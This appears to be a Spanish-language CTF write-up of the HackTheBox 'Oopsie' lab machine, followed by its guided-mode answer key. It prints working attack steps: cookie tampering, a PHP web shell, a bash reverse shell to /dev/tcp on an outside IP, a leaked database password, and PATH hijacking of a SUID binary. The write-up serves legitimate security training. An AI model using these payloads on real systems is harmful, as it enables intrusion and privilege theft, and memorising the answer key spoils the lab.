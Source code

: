 #easy #linux #nmap #ping

------
# Guided Mode

1)¿Con qué tipo de herramienta se puede interceptar el tráfico web?
	proxy

2)¿Cuál es la ruta al directorio en el servidor web que devuelve una página de inicio de sesión?
	/cdn-cgi/login

3)¿Qué se puede modificar en Firefox para acceder a la página de carga?
	cookie

4)¿Cuál es el ID de acceso del usuario admin?
	34322

5)Al cargar un archivo, ¿en qué directorio aparece ese archivo en el servidor?
	/uploads

6)¿Cuál es el archivo que contiene la contraseña que se comparte con el usuario robert?
	db.php

7)¿Qué ejecutable se ejecuta con la opción «-group bugtracker» para identificar todos los archivos propiedad del grupo bugtracker?
	find

8)Independientemente del usuario que inicie la ejecución del ejecutable bugtracker, ¿qué privilegios de usuario utilizará para ejecutarlo?
	root

9)¿Qué significa SUID?
	set owner user id

10)¿Cuál es el nombre del ejecutable al que se llama de forma insegura?
	cat


-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.207.226
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.207.226 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.207.226 -oN target
```

![[Oopsie1.png]]

![[Oopsie2.png]]
Por el ttl cercano a 64 es una maquina linux
*Puertos*
`22` SSH
`80`HTTP apache


----
# [[Whatweb-wappalyzer]]

![[Oopsie3.png]]

No nos da ningun dato relevante

------
# Vamos a interceptar con [[Caido]]

Aceptamos la primera peticion de la pagina, para que pase todo el trafico asi se genera un sitemap

![[Oopsie5.png]]
Ahora tenemos una carpeta que se llama cdn-cgi
Con [[Gobuster]] `gobuster dir -u http://10.129.207.226/cdn-cgi/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 50` vamos a buscar posibles directorios y nos da que existe el directorio login

![[Oopsie4.png]]

--------
# Ingreso al panel de login

http://10.129.207.226/cdn-cgi/login/

![[Oopsie6.png]]
Entramos con ``login as a guest``

Ahora vamos a account
![[Oopsie7.png]]

Y vemos que somos el usuario id 2, normalmente el usuario admin es el id 1 por que es el primero en crearse
![[Oopsie8.png]]

Cambiamos el link a `http://10.129.207.226/cdn-cgi/login/admin.php?content=accounts&id=1`

![[Oopsie9.png]]
Y vemos el id del usuario admin, ahora vamos a cambiar los valores de la cookie para robarnos las credenciales

------
# [[Cookie Hijacking]]

Con el user id 34322 y el name de admin, que sacamos antes, vamos a apretar en el navegador CTRL + SHIFT + I
Se nos va a abrir esto y vamos a cambiar el valor role `guest` a `admin` y el valor de user `2233` a `34322`

![[Oopsie10.png]]
Reiniciamos y la pagina, y ya estamos como el usuario admin

---------
# [[Arbitrary file upload]]

![[Oopsie12.png]]

Desde la parte de uploads, vamos a cargar un [[archivo php inyección comandos]]

`test.php`
```
<?php system($_GET["cmd"]); ?>
```
Lo subimos con este contenido, en uno de nuestros primeros intentos de enumerar, habiamos visto que existe el directorio uploads
![[Oopsie11.png]]

Entonces desde el directorio uploads vamos a intentar inyectar comandos con la utilidad que subimos
http://10.129.207.226/uploads/test.php?cmd=whoami
![[Oopsie13.png]]
Nos responde www-data asi que funciona correctamente

------
# [[Reverse shell]]

Con el archivo que subimos antes, vamos a ejecutar la revershell
http://10.129.207.226/uploads/test.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'

![[Oopsie14.png]]
Mientras estamos en escucha con [[nc -nlvp 443]]

![[Oopsie16.png]]
Ya estamos dentro de la maquina, ahora hacemos un [[Tratamiento de la TTY]]


-----------
# Escalada de al usuario robert

Dentro de la carpeta /var/www/html/cdn-cgi ssamos el comando grep -riE "connect|.*connect|connect.*"   para buscar posibles contraseñas 


![[Oopsie20.png]]

Da como resultado ``M3g4C0rpUs3r!``
![[Oopsie19.png]]

------
# Escala a root mediante binario del grupo bugtracker

Vemos con [[id]] que estamos en el grupo bugtracker
Usamos el  comando [[find]] ``find / -group bugtraker 2>/dev/null`` para buscar archivos que pueda ejecutar por estar en este grupo

![[Oopsie23.png]]
Y tenemos que podemos usar el binario */usr/bin/bugtracker*
Al listar los permisos que tiene con [[ls]] `ls -l` vemos que es [[SUID]] y el usuario es root. 
![[Oopsie25.png]]

Al ejecutarlo me pide un id de bug, ponemos prueba y vamos que lo que esta haciendo el binario es un cat

![[Oopsie24.png]]
Entonces sacamos la conclusion de que estamos ejecutando el [[cat]] como si fueramos root

--------
# [[Path Hijacking]] al comando cat

Agregamos en el PATH el directorio /tmp. y en ese directorio creamos el archivo cat con el contenido `/bin/bash` para que cuando lo ejecutemos nos abra una bash. Le damos permisos de ejecucion con [[chmod]] `chmod +x cat` . Y ejecutamos el binario, ponemos cualquier id de bug. Y ya se nos abre la bash con privilegios de root, y podemos catear la flag

```shell
export PATH=/tmp:$PATH          /Agrega al principio del PATH el directorio tmp
echo "/bin/bash" > cat          /Crea el archivo cat, con el contenido /bin/bash
chmod +x cat                    /Da permisos de ejecucion al comando cat
/usr/bin/bugtracker             /Ejecuta el binario
```

![[Oopsie27.png]]
![[Oopsie28.png]]

-------
# Notas

Para el sitemap si usamos caido, no nos va a detectar el directorio login, pero con burpsuite

------
# Creditos
Writeup oficial HackTheBox